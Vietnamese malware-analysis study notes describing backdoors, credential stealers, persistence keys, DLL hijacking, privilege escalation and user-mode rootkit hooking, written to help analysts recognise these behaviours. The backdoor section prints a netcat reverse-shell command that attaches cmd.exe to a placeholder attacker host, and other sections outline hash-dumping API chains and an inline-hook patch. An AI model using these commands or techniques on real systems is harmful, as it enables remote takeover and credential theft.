





# Chương 11: Hành Vi Phần Mềm Độc Hại (Malware Behavior)

---

## 1. Downloaders và Launchers

**Downloader** là loại malware chỉ làm một việc: tải malware khác từ Internet về và thực thi trên hệ thống nạn nhân. Thường được đóng gói cùng exploit để xâm nhập ban đầu, sau đó gọi `WinExec` để chạy payload tải về.

**Launcher (Loader)** là executable cài đặt malware để chạy ngay hoặc ẩn sau đó. Launcher thường chứa sẵn malware bên trong nó.

---

## 2. Backdoors

Backdoor cung cấp **quyền truy cập từ xa** vào máy nạn nhân. Đây là loại malware **phổ biến nhất**, không cần tải thêm code vì đã có đầy đủ chức năng.

**Giao tiếp:** Thường dùng **port 80 / HTTP** để hòa lẫn với traffic thông thường.

**Chức năng thường thấy:** thao tác registry, liệt kê cửa sổ, tạo thư mục, tìm kiếm file,...

---

### 2.1 Reverse Shell

Kết nối **khởi tạo từ máy nạn nhân** ra ngoài → attacker nhận được shell.

#### Netcat Reverse Shell

```bash
# Máy attacker lắng nghe
nc -l -p 80

# Máy nạn nhân kết nối ra và gắn cmd.exe vào socket
nc listener_ip 80 -e cmd.exe
```

#### Windows Reverse Shell — Basic Method

- Tạo socket → kết nối tới remote server
- Gắn socket vào **stdin / stdout / stderr** của `cmd.exe`
- Gọi `CreateProcess` với `STARTUPINFO` để ẩn cửa sổ

#### Windows Reverse Shell — Multithreaded Method

```
Socket + 2 Pipe + 2 Thread
├── Thread 1: đọc stdin pipe → ghi vào socket
└── Thread 2: đọc socket → ghi vào stdout pipe
```

Dùng khi cần **encode/decode data** trước khi truyền. Tìm dấu hiệu: `CreateThread`, `CreatePipe`, `CreateProcess`.

---

### 2.2 RAT (Remote Administration Tool)



- Server (malware) **chủ động beacon** về client (attacker)
- Giao tiếp qua port **80 / 443**
- Dùng trong **tấn công có chủ đích** (targeted attack): đánh cắp thông tin, lateral movement

> **Ví dụ thực tế:** Poison Ivy — RAT miễn phí, mở rộng qua shellcode plug-in.

---

### 2.3 Botnet

Mạng lưới các **zombie** (máy bị chiếm) được điều khiển tập trung qua **botnet controller**.

| Tiêu chí | RAT | Botnet |
|---|---|---|
| Số lượng nạn nhân | Ít, có chọn lọc | Hàng triệu |
| Kiểu điều khiển | Từng nạn nhân riêng lẻ | Tất cả cùng lúc |
| Mục tiêu | Tấn công có chủ đích | Tấn công đại trà |
| Mục đích | Đánh cắp thông tin | Spam, DDoS, phát tán malware |

---

## 3. Credential Stealers

Ba kiểu đánh cắp thông tin xác thực:

1. Chờ user đăng nhập rồi đánh cắp
2. Dump password hash từ Windows
3. Ghi lại phím gõ (keylogging)

---

### 3.1 GINA Interception (Windows XP)

GINA = **Graphical Identification and Authentication**, được implement trong `msgina.dll`, nạp bởi `winlogon.exe`.

**Cơ chế tấn công:**



Malware đăng ký DLL độc hại tại:
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL
```

**Dấu hiệu nhận biết:** DLL có hơn 15 export function bắt đầu bằng `Wlx` (ví dụ: `WlxLoggedOutSAS`).

Kết quả bị đánh cắp được ghi vào:
```
%SystemRoot%\system32\drivers\tcpudp.sys
```
Nội dung log: **username, domain, password, old password**.

---

### 3.2 Hash Dumping

Dump **LM / NTLM hash** từ SAM (Security Account Manager) để:
- Crack offline
- Thực hiện **Pass-the-Hash attack** (dùng hash trực tiếp để xác thực NTLM mà không cần plaintext)

#### Pwdump

- Inject `lsaext.dll` vào tiến trình **lsass.exe**
- Export function mặc định: `GetHash`
- Resolve các API không document của Microsoft:

```
samsrv.dll  → SamIConnect, SamrQueryInformationUser, SamIGetPrivateData
advapi32.dll → SystemFunction025, SystemFunction027 (giải mã hash)
```

#### whosthere-alt

Inject vào `lsass.exe` nhưng dùng bộ API khác:

```
secur32.dll → LsaEnumerateLogonSessions (lấy danh sách LUID)
msv1_0.dll  → NlpGetPrimaryCredential (dump NT + LM hash)
```

!!! warning "Lưu ý quan trọng"
    Khi phân tích hash dumping, ưu tiên xác định **malware làm gì với hash** (lưu disk? gửi web? dùng pass-the-hash?) hơn là phân tích chi tiết kỹ thuật dump.

---

### 3.3 Keylogging

#### Kernel-Based Keylogger

Hoạt động ở **kernel level**, hoạt động như keyboard driver, rất khó phát hiện từ user-mode.

#### User-Space Keylogger — Hooking

Dùng `SetWindowsHookEx` → Windows tự động thông báo mỗi khi có phím được nhấn. Thường kèm DLL để xử lý logging.

#### User-Space Keylogger — Polling



**Dấu hiệu trong strings listing:**
```
[Up]
[Num Lock]
[Down]
[Right]
[Left]
[PageDown]
```

---

## 4. Persistence Mechanisms

### 4.1 Windows Registry

Registry key phổ biến nhất:
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

**Công cụ phát hiện:** Sysinternals Autoruns, ProcMon.

#### AppInit_DLLs

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows
```

DLL trong AppInit_DLLs được nạp vào **mọi process load User32.dll**. Do đó malware phải kiểm tra trong `DllMain` xem đang chạy trong process nào trước khi kích hoạt payload.

#### Winlogon Notify

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify
```

Hook vào các sự kiện: logon, logoff, startup, shutdown, lock screen. Có thể **load cả trong safe mode**.

#### SvcHost DLLs

Malware giả dạng Windows service chạy dưới `svchost.exe`:

```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost   ← định nghĩa group
HKLM\System\CurrentControlSet\Services\ServiceName           ← định nghĩa service
```

- `ImagePath` = `%SystemRoot%/System32/svchost.exe -k GroupName`
- `Parameters\ServiceDLL` = đường dẫn tới malicious DLL
- Malware thường **chen vào group có sẵn** (ví dụ: `netsvcs`) thay vì tạo group mới

**Dấu hiệu:** Tìm `CreateServiceA` trong disassembly.

---

### 4.2 Trojanized System Binaries

Malware **vá bytes** vào system binary để tự động chạy khi binary đó được load.

**Kỹ thuật:**

```
Entry function của DLL gốc  →  bị thay bằng JMP tới malicious code
Malicious code              →  nằm trong vùng trống của binary
Sau khi chạy xong           →  JMP trở lại code gốc để hệ thống hoạt động bình thường
```

**Ví dụ thực tế** — `rtutils.dll` bị trojanize:

| Trước | Sau |
|---|---|
| `mov edi, edi` | `jmp DllEntryPoint_0` |
| `push ebp` | *(nhảy đến malicious code)* |

Malicious code dùng trick **call + pop** để tự xác định vị trí của mình trong bộ nhớ (position-independent), sau đó load `msconf32.dll` qua `LoadLibraryA`.

---

### 4.3 DLL Load-Order Hijacking

Không cần sửa registry hay trojanize binary. Lợi dụng thứ tự tìm kiếm DLL của Windows:

```
1. Thư mục chứa application
2. Thư mục hiện tại (current directory)
3. System directory (Windows\System32)
4. 16-bit system directory (Windows\System)
5. Windows directory (Windows\)
6. Các thư mục trong PATH
```

**Ví dụ tấn công:**

```
explorer.exe (ở C:\Windows\) load ntshrui.dll (ở System32\)
→ ntshrui.dll KHÔNG nằm trong KnownDLLs
→ Windows tìm ở C:\Windows\ TRƯỚC System32\
→ Đặt malicious ntshrui.dll vào C:\Windows\ → được load thay thế
```

!!! tip "Mở rộng tấn công"
    - `explorer.exe` có ~50 DLL dễ bị tấn công theo cách này
    - Known DLLs không được bảo vệ hoàn toàn vì **recursive imports** (DLL load DLL khác theo default search order)

---

## 5. Privilege Escalation

### Tại sao cần?

- User thông thường không có admin → malware cần leo thang quyền
- Kể cả khi là local admin, **process vẫn chạy ở user level**, không thể thao tác system-level process

### SeDebugPrivilege

Được tạo ra cho mục đích debug, nhưng malware lạm dụng để **truy cập toàn quyền vào system-level process**.

**Chuỗi API calls:**

```
GetCurrentProcess()          → lấy process handle
OpenProcessToken()           → lấy access token
LookupPrivilegeValueA("SeDebugPrivilege") → lấy LUID
AdjustTokenPrivileges()      → enable SeDebugPrivilege
```

Sau đó có thể gọi `TerminateProcess`, `CreateRemoteThread`,... trên remote process.

!!! info "Nhận dạng nhanh"
    Khi thấy chuỗi 4 API trên trong disassembly → **đặt label và bỏ qua**, không cần phân tích sâu hơn. Tập trung vào code phía sau nó.

---

## 6. User-Mode Rootkits

Rootkit che giấu process, file, kết nối mạng bằng cách **can thiệp vào cơ chế nội tại của OS**.

### 6.1 IAT Hooking

Sửa con trỏ trong **Import Address Table (IAT)** để redirect function call tới malicious code.



**Nhược điểm:** Dễ phát hiện → ít dùng trong rootkit hiện đại.

---

### 6.2 Inline Hooking

Ghi đè **code thực của function** trong DLL (không phải chỉ sửa pointer).

**Cơ chế 7-byte hook:**

```asm
; Trước khi hook
ZwDeviceIoControlFile:
    mov eax, NativeCallNumber
    mov edx, ...

; Sau khi hook — 7 bytes đầu bị ghi đè
ZwDeviceIoControlFile:
    mov eax, 0xHOOK_FUNC_ADDR   ; B8 xx xx xx xx
    jmp eax                      ; FF E0
```

**Quy trình cài hook:**

```
1. GetProcAddress("ZwDeviceIoControlFile") → lấy địa chỉ function
2. Chuẩn bị 7 bytes patch (mov eax, addr + jmp eax)
3. memcpy patch vào đầu function trong memory
4. Khi function được gọi → nhảy vào rootkit code
5. Rootkit xử lý (ví dụ: lọc port 443) → gọi function gốc tiếp tục
```

**Ví dụ:** Rootkit hook `ZwDeviceIoControlFile` (dùng bởi Netstat) để **ẩn traffic trên port 443**.

!!! note "Biến thể né tránh phát hiện"
    Một số malware **không hook ở đầu function** mà hook ở giữa hoặc cuối để qua mặt các defensive tool chỉ kiểm tra bytes đầu.

---

## Tổng kết


